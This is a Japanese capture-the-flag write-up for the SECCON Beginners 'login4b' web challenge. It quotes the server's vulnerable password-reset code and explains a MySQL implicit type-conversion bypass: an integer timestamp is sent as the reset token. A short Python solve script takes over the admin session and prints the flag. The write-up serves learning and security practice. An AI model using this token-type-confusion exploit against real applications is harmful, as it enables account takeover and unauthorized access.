

# login4b:web:420pts
Are you admin? [http://login4b.challenges.beginners.seccon.jp](http://login4b.challenges.beginners.seccon.jp)  

[login4b.zip](login4b.zip)  

# Solution
URLとソースが渡される。  
アクセスするとLogin4bなるサービスで`Register`、`Login`、`Password Reset`の3つが実行できる。  
  
`Password Reset`では`Username`から`Reset Token`を取得し、それを使ってパスワードを新しくできる。  
ソースのserver.tsの主要な箇所は以下の通りであった。  
```ts
~~~
app.post("/api/reset-request", async (req: Request, res: Response) => {
  try {
    const { username } = req.body;

    if (!username) {
      return res.status(400).json({ error: "Username is required" });
    }

    const user = await db.findUser(username);
    if (!user) {
      return res.status(404).json({ error: "User not found" });
    }

    await db.generateResetToken(user.userid);

    // TODO: send email to admin
    res.json({
      success: true,
      message:
        "Reset token has been generated. Please contact the administrator for the token.",
    });
  } catch (error) {
    console.error("Error generating reset token:", error);
    res.status(500).json({ error: "Internal server error" });
  }
});

app.post("/api/reset-password", async (req: Request, res: Response) => {
  try {
    const { username, token, newPassword } = req.body;
    if (!username || !token || !newPassword) {
      return res
        .status(400)
        .json({ error: "Username, token, and new password are required" });
    }

    const isValid = await db.validateResetTokenByUsername(username, token);

    if (!isValid) {
      return res.status(400).json({ error: "Invalid token" });
    }

    // TODO: implement
    // await db.updatePasswordByUsername(username, newPassword);

    // TODO: remove this
    const user = await db.findUser(username);
    if (!user) {
      return res.status(401).json({ error: "Invalid username" });
    }
    req.session.userId = user.userid;
    req.session.username = user.username;

    res.json({
      success: true,
      message: `The function to update the password is not implemented, so I will set you the ${user.username}'s session`,
    });
  } catch (error) {
    console.error("Password reset error:", error);
    res.status(500).json({ error: "Reset failed" });
  }
});

app.get("/api/get_flag", (req: Request, res: Response) => {
  if (!req.session.userId) {
    return res.status(401).json({ error: "Not authenticated" });
  }

  if (req.session.username === "admin") {
    res.json({ flag: process.env.FLAG || "ctf4B{**REDACTED**}" });
  } else {
    res.json({ message: "Hello user! Only admin can see the flag." });
  }
});
~~~
```
`/api/get_flag`では、`admin`であればフラグが表示されるようだ。  
`/api/reset-request`ではdatabase.tsの`db.generateResetToken`を用いて`Reset Token`を生成して、DBをUPDATEしている。  
```ts
  async generateResetToken(userid: number): Promise<string> {
    await this.initialized;
    const timestamp = Math.floor(Date.now() / 1000);
    const token = `${timestamp}_${uuidv4()}`;

    await this.pool.execute(
      "UPDATE users SET reset_token = ? WHERE userid = ?",
      [token, userid]
    );
    return token;
  }
```
ただし、生成した値は`// TODO: send email to admin`のコメント通り表示されない。  
次に、`/api/reset-password`ではdatabase.tsの`db.validateResetTokenByUsername`を用いて、DBの`Reset Token`を確認している。  
```ts
  async validateResetTokenByUsername(
    username: string,
    token: string
  ): Promise<boolean> {
    await this.initialized;
    const [rows] = (await this.pool.execute(
      "SELECT COUNT(*) as count FROM users WHERE username = ? AND reset_token = ?",
      [username, token]
    )) as [any[], mysql.FieldPacket[]];
    return rows[0].count > 0;
  }
```
そして、DBのパスワードを変更すると思いきや、`// TODO: implement`以下のコメントの通り`db.updatePasswordByUsername`は未実装であるらしく、リセットしたユーザのセッションを与えている。  
つまり、表示されない`Reset Token`を使ってパスワードをリセットすると、そのユーザになれることを意味している。  
うまく`admin`のパスワードをリセットしたい。  
ここで`Reset Token`を予測できないかと考え、仕様を確認する。  
```ts
  async generateResetToken(userid: number): Promise<string> {
    await this.initialized;
    const timestamp = Math.floor(Date.now() / 1000);
    const token = `${timestamp}_${uuidv4()}`;

    await this.pool.execute(
      "UPDATE users SET reset_token = ? WHERE userid = ?",
      [token, userid]
    );
    return token;
  }
```
`` `${timestamp}_${uuidv4()}` ``となっており、`timestamp`は予測できるが`uuidv4()`は予測できない。  
`Password Reset`が怪しすぎるため、Race Conditionなども考えたが、予測可能な文字や`NULL`を代入している箇所もなく、そもそも`NULL`は400を返すようにチェックされている。  
ここで、`/api/reset-password`でユーザから渡される`token`は`req.body`由来であるが、型のバリデーションが行われていないことに気づく。  
そのままSQL文の`SELECT COUNT(*) as count FROM users WHERE username = ? AND reset_token = ?`に組み込まれているため、数値などを渡すことでDBの値とおかしな比較を行えないだろうか。  
ここでさらに、今回利用されているMySQLには暗黙の型変換があったことを思い出す。  
例えば、数値との文字列が比較される場合、文字列の数値として読み込める箇所までを数値として扱う挙動がある。  
つまり以下のどれもが比較が真と判断される。  
```sql
SELECT 'satoki' WHERE 9='9';
SELECT 'satoki' WHERE 9='9Test';
SELECT 'satoki' WHERE 9='9_012345678';
```
この挙動により、`token`の型を数値にしてやれば、`Reset Token`の`${timestamp}`の後ろの`_${uuidv4()}`は暗黙の型変換により無視される。  
`/api/reset-request`を呼ぶたびに`Math.floor(Date.now() / 1000)`が`Reset Token`の先頭となるので、これは容易に予測できる。  
以下のようなsolve.pyを用いて、`admin`の`Reset Token`の比較を突破してセッションを取得する。  
```py
import time
import requests

session = requests.Session()

URL = "http://login4b.challenges.beginners.seccon.jp"

session.post(f"{URL}/api/reset-request", json={"username": "admin"})
token = int(time.time())
session.post(f"{URL}/api/reset-password", json={"username": "admin", "token": token, "newPassword": "satoki"})

response = session.get(f"{URL}/api/get_flag")
print(response.text)
```
実行する。  
```bash
$ python solve.py
{"flag":"ctf4b{y0u_c4n_byp455_my5q1_imp1ici7_7yp3_c457}"}
```
無事`admin`になることができ、flagが得られた。  

## ctf4b{y0u_c4n_byp455_my5q1_imp1ici7_7yp3_c457}